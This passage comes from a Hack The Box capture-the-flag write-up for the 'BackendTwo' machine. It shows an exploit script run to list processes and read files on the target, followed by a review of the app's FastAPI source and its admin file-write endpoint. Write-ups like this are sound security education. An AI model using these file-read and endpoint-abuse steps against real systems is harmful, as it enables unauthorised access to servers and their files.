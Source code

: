 ```console
root@kali:~/htb/Machines/BackendTwo# python3 file.py proc_enum
(snip)
/usr/sbin/runuser-uhtb--/home/htb/run.sh
(snip)

root@kali:~/htb/Machines/BackendTwo# python3 file.py get_file -f /home/htb/run.sh
```

<details><summary>/home/htb/run.sh</summary></details>

There was the process with the command `/usr/sbin/runuser -u htb -- /home/htb/run.sh`.
The `/home/htb/run.sh` file shows [Uvicorn](https://www.uvicorn.org/) running in the module `app.main` in the htb user's home directory `/home/htb`, so the code is in `/home/htb/app/main.py`.
I was able to get main.py by running the command `python3 file.py get_file -f /home/htb/app/main.py`.

### Get and Review Source Code

JWT is encoded at login, so I look at the code around it.

part of /home/htb/app/main.py

```python
from app.api.v1.api import api_router
from app.core.config import settings

# (snip)

app.include_router(api_router, prefix=settings.API_V1_STR)
```

/home/htb/app/api/v1/api.py

```python
from fastapi import APIRouter

from app.api.v1.endpoints import user, admin


api_router = APIRouter()
api_router.include_router(user.router, prefix="/user", tags=["user"])
api_router.include_router(admin.router, prefix="/admin", tags=["admin"])
```

part of /home/htb/app/api/v1/endpoints/admin.py

```python
@router.post("/file/{file_name}", status_code=200)
def write_file(
    file_name: str,
    write_file: WriteFile,
    current_user: User = Depends(deps.parse_token),
    db: Session = Depends(deps.get_db)
) -> str:
    """
    Writes a file on the server. File name input is encoded in base64_url
    """
    if not current_user['is_superuser']:
        raise HTTPException(status_code=400, detail="Not a admin")

    if "debug" not in current_user.keys():
        raise HTTPException(status_code=400, detail="Debug key missing from JWT")

    import base64

    file_name = base64.urlsafe_b64decode(file_name.encode("utf-8") + b'=' * (4 - len(file_name) % 4))
    file_name = file_name.decode()
```
